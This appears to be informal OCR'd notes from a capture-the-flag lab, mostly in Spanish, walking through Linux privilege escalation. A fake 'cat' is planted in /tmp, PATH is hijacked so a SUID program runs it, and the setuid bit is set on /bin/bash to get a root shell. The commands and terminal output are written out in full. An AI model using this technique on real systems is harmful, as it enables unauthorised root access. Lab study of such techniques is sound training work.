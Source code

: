 LA RUTA DE CAT ES USR/BIN/CAT... YO NO PUEDO ACCEDER A EL BINARIO ESTE SI QUIERO HACER EL COMANDO YO. EL MUCHACHO DICE QUE ACCEDEMOS DE FORMA RELATIVA, POR EL BINARIO ESTE.. SE PUEDE SECUESTRAR EL BINARIO YENDO A 

cd /tmp/
touch cat chmod +x cat
$PATH
export PATH=/tmp:$PATH ( agregamso una carpeta antes para revisar en el path.. desde tmp y no desde la que sigue que es /bin/usr/)

Y AHORA MODIFICAMOS EL CAT .. CON NANO

chmod u+s /bin/bash
PONEMOS QUE MODIFIQUE EL PRIVILEGIO SUID A LA BASH...

now we execute it 

```
travis@debian:/tmp$ /opt/get_access 
All services are disabled. Accessing to the system is allowed only within working hours.
```
HA ECHO UN SECUESTRO DEL BINARIO Y AHORA HAY PRIVILEGIOS PARA EJECUTAR LO QUE SEA CON BASH
```
travis@debian:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
travis@debian:/tmp$ 
```
bash -p (privileged means p)
```
travis@debian:/tmp$ bash -p
bash-5.1# 

```
and now we are root

```
chmod: changing permissions of '/bin/bash': Operation not permitted
bash-5.1# 
```
we need to change the PATH again and we can do the cat of the root flag